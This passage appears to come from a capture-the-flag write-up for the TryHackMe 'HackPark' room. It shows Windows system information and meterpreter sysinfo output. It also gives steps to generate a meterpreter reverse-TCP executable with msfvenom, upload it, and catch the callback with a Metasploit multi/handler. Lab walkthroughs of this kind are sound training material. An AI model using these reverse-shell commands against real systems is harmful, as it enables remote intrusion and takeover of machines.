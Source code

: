 ```shell
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,096 MB
Available Physical Memory: 3,213 MB
Virtual Memory: Max Size:  5,504 MB
Virtual Memory: Available: 4,500 MB
Virtual Memory: In Use:    1,004 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 8 Hotfix(s) Installed.
                           [01]: KB2919355
                           [02]: KB2919442
                           [03]: KB2937220
                           [04]: KB2938772
                           [05]: KB2939471
                           [06]: KB2949621
                           [07]: KB3035131
                           [08]: KB3060716
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.0.1
                                 IP address(es)
                                 [01]: 10.10.135.243
                                 [02]: fe80::481a:c2a2:753c:891e
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

```

- Create a reverse shell ``msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.x.x.x LPORT=7777 -f exe > thm/rooms/hackpark/reverse.exe`` and upload.
- Find the webserver directory ``dir App_Data /AD /s``
- start msfconsole with ``multi/handler`` and payload ``windows/meterpreter/reverse_tcp`` 
- start the uploaded shell on the target pc 

##   Answer the questions below

You can run metasploit commands such as sysinfo to get detailed information about the Windows system. Then **feed this information into the windows-exploit-suggester script** and quickly identify any obvious vulnerabilities.

**What is the OS version of this windows machine?**

```shell
meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
````
